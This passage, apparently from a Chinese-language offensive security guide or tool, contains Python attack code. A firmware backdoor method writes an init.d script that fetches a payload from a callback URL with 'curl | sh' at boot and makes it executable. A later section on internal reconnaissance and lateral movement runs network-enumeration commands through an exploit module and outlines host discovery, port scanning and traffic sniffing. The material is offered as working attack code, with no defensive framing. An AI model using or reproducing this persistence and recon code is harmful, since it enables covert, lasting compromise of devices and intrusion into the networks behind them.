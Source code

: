 ```python
        for cmd in commands:
            self.exploit.run(cmd)
    
    def _firmware_backdoor(self, callback_url):
        """固件级后门"""
        # 修改启动脚本
        init_script = f"""
#!/bin/sh
# Backdoor persistence
curl -s {callback_url}/init | sh &
"""
        self.exploit.run(f"echo '{init_script}' >> /etc/init.d/backdoor")
        self.exploit.run("chmod +x /etc/init.d/backdoor")
```

---

## 四、网络侦查与横向移动

### 1. 自动化内网侦查

```python
class NetworkRecon:
    """内网侦查自动化"""
    
    def __init__(self, exploit_module):
        self.exploit = exploit_module
        self.network_info = {}
    
    def comprehensive_recon(self):
        """全面内网侦查"""
        print("[*] Starting comprehensive network reconnaissance...")
        
        # 获取网络信息
        self.network_info.update(self._get_network_info())
        
        # 发现内网主机
        self.network_info['hosts'] = self._discover_hosts()
        
        # 端口扫描
        self.network_info['services'] = self._port_scan()
        
        # 嗅探网络流量
        self._capture_traffic()
        
        return self.network_info
    
    def _get_network_info(self):
        """获取网络配置信息"""
        commands = {
            'ifconfig': 'ifconfig',
            'route': 'route -n',
            'arp': 'arp -a',
            'dns': 'cat /etc/resolv.conf'
        }
        
        results = {}
        for name, cmd in commands.items():
            try:
                output = self.exploit.run(cmd)
                results[name] = output
            except:
                results[name] = None
```